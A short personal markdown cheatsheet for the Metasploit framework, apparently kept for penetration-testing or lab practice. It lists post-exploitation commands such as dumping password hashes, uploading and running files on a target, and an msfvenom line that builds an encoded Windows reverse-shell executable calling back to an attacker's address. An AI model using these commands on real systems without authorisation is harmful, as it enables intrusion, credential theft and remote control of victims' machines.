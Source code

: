 -----------------------------------------------
# Metasploit
Tags:  #Hacking #Cheatsheet #Tools 
Creation date: 2021-10-05

-----------------------------------------------


### Start Metasploit

```msfconsole -q```

### List sessions

```sessions```

### Search for and use module from nmap vuln scan

```search <vuln>```

```use <index>```

### Change reverse shell to metapreter shell

```use post/multi/manage/shell_to_metapreter```

```set session <session id of shell>```

Change to metapreter session:

```sessions -i <session id>```

#### Useful metapreter commands

```shell``` - Gain interactive shell on target box

```hashdump``` - Dump password hashes of users

```upload <src file> <dst file>``` - Upload file to target

```download <src file> <dst file>``` - Download file from target

```sysinfo``` - Get info on target box

```execute -f <file>``` - Execute file on target box

### Generate reverse shell as windows executable

```msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -f exe -o <.exe>```